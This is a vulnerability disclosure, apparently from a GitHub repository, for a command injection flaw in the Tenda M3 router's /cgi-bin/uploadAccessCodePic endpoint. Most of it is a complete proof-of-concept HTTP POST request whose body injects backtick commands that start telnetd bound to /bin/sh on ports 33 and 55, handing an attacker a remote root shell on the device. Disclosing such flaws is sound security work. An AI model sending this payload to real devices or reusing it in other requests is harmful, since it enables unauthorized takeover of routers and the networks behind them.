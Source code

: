 # Tenda M3 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda M3 1.10 V1.0.0.12(4856) devices. An HTTP request parameter is used in command string construction within the handler function of the /cgi-bin/uploadAccessCodePic route. This could lead to Command Injection via Shell Metacharacters.

![1](./1.jpg)

![2](./2.jpg)



When we send packets, the router will be shell



```
POST /cgi-bin/uploadAccessCodePic HTTP/1.1
Host: 192.168.10.1
Referer: http://192.168.10.1/login.html
Cookie: bLanguage=cn; user=admin; workMode=slave
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 334

-----------------------------11

`telnetd -p 33 -l /bin/sh`aa-------


-----------------------------11
22----

#_logoo --------------------------11
33----

-----------------------------11
44----

-----------------------------11
55----

`telnetd -p 55 -l /bin/sh`aa--filename

-----------------------------11
77--11
```







![poc](./poc.jpg)

